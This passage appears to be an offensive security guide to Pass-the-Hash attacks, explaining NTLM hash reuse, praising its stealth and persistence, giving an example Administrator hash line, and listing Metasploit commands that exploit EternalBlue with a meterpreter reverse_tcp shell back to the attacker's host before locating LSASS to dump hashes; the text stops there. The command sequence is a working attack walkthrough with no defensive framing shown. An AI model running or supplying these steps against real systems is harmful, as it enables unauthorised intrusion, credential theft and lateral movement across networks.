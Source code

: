 # Pass-the-Hash Attacks: Comprehensive Guide

## Overview

Pass-the-Hash (PtH) is a lateral movement technique that allows attackers to authenticate to remote systems using captured NTLM/LM password hashes without needing to crack them to obtain plaintext passwords.

## Key Concepts

### What is Pass-the-Hash?

- Authentication using NTLM/LM hashes instead of plaintext passwords
- Works because NTLM authentication uses hashes for verification
- No password cracking required
- Provides persistence even if original vulnerability is patched

### Why PtH is Effective

- **Persistence**: Maintain access after service patching
- **Stealth**: No password cracking attempts logged
- **Efficiency**: Direct authentication without brute-forcing
- **Lateral Movement**: Access multiple systems with same credentials

## Prerequisites for PtH Attacks

### Required Information

```bash
# Essential components for PtH
- Target IP address
- Valid username
- NTLM hash (and optionally LM hash)
- SMB service access (port 445)
```

### Hash Format

```
Username: SID: LM Hash: NTLM Hash:::
Example:
Administrator:500:AAD3B435B51404EEAAD3B435B51404EE:32ED87BDB5FDC5E9CBA88547376818D4:::
```

## Metasploit Framework Approach

### Initial Compromise and Hash Extraction

```bash
# Start Metasploit
service postgresql start
msfconsole

# Exploit target (example with EternalBlue)
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target_ip>
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <your_ip>
exploit

# Migrate to LSASS and dump hashes
ps | grep lsass
```